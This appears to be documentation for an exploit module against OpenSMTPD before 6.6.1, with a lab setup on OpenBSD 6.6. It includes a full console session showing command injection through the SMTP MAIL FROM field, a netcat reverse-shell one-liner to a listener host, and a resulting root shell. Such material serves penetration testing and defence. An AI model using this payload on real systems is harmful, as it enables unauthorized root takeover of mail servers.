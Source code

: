## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute a command as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to `foo.localdomain` in VMware)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.localdomain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

### Targets

```
Id  Name
--  ----
0   OpenSMTPD < 6.6.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RCPT_TO**

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > options

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RCPT_TO  root             yes       Valid mail recipient
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    25               yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   OpenSMTPD < 6.6.1


msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 172.16.249.137
rhosts => 172.16.249.137
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[+] mkfifo /tmp/twkfr; nc 172.16.249.1 4444 0</tmp/twkfr | /bin/sh >/tmp/twkfr 2>&1; rm /tmp/twkfr
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] 172.16.249.137:25 - Executing automatic check (disable AutoCheck to override)
[!] 172.16.249.137:25 - The service is running, but could not be validated.
[*] 172.16.249.137:25 - Connecting to OpenSMTPD
[*] 172.16.249.137:25 - Saying hello and sending exploit
[*] 172.16.249.137:25 - Expecting: /220.*OpenSMTPD/
[+] 172.16.249.137:25 - Received: 220 foo.localdomain ESMTP OpenSMTPD
[*] 172.16.249.137:25 - Sending: HELO JijrF2eskbXFfdlaV
[*] 172.16.249.137:25 - Expecting: /250.*pleased to meet you/
[+] 172.16.249.137:25 - Received:
250 foo.localdomain Hello JijrF2eskbXFfdlaV [172.16.249.1], pleased to meet you
[*] 172.16.249.137:25 - Sending: MAIL FROM:<;for W in a n 0 9 g D 7 N 7 B K R i u V;do read;done;sh;exit 0;>
[*] 172.16.249.137:25 - Expecting: /250.*Ok/
[+] 172.16.249.137:25 - Received:
250 2.0.0 Ok
[*] 172.16.249.137:25 - Sending: RCPT TO:<root>
[*] 172.16.249.137:25 - Expecting: /250.*Recipient ok/
[+] 172.16.249.137:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 172.16.249.137:25 - Sending: DATA
[*] 172.16.249.137:25 - Expecting: /354 Enter mail.*itself/
[+] 172.16.249.137:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 172.16.249.137:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/rsnzh; nc 172.16.249.1 4444 0</tmp/rsnzh | /bin/sh >/tmp/rsnzh 2>&1; rm /tmp/rsnzh
[*] 172.16.249.137:25 - Sending: .
[*] 172.16.249.137:25 - Expecting: /250.*Message accepted for delivery/
[+] 172.16.249.137:25 - Received:
250 2.0.0 5bd4f87d Message accepted for delivery
[*] 172.16.249.137:25 - Sending: QUIT
[*] 172.16.249.137:25 - Expecting: /221.*Bye/
[+] 172.16.249.137:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:28550) at 2020-02-28 10:28:14 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```
